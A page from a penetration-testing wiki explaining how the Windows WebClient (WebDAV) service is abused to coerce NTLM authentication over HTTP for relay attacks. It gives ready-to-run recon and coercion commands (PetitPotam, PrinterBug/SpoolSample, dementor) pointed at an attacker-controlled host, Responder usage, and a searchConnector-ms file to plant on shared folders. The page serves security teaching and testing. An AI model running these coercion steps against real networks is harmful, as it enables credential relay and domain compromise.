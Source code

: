```yaml
---
authors: ShutdownRepo, mpgn, sckdev, Pri3st, rtpt-romankarwacik
category: ad
---
```


# WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. It allows attackers to elicit authentications made over HTTP instead of SMB, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organizations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

::: tabs

=== UNIX-like

From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
netexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav
```


=== Windows

From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```

:::


### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

> [!TIP]
> To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.
> 
> In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.
> 
> A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

::: tabs

=== Map a WebDAV server

By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```


=== searchConnector-ms

With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>https://whatever/</url>
    </simpleLocation>
</searchConnectorDescription>
```


=== Explorer

By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.

=== Service trigger

According to [tiraniddo's research](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html), the webclient service is registered with a service trigger, meaning it can be started automatically in response to a specific system event.
A simple way to start the service in an unprivileged session is by compiling and executing the following [C# PoC](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) created by [klezVirus](https://gist.github.com/klezVirus).

=== SharpStartWebclient

By compiling and executing the [SharpStartWebclient](https://github.com/eversinc33/SharpStartWebclient) tool created by [eversinc33](https://github.com/eversinc33)

=== Beacon Object File

By using the following [BOF (Beacon Object File)](https://github.com/outflanknl/C2-Tool-Collection/blob/main/BOF/StartWebClient/SOURCE/StartWebClient.c) created by [outflanknl](https://github.com/outflanknl).

:::


## Resources

[https://www.webdavsystem.com/server/access/windows](https://www.webdavsystem.com/server/access/windows)

[https://pentestlab.blog/2021/10/20/lateral-movement-webclient](https://pentestlab.blog/2021/10/20/lateral-movement-webclient)

[https://www.tiraniddo.dev/2015/03/starting-webclient-service.html](https://www.tiraniddo.dev/2015/03/starting-webclient-service.html)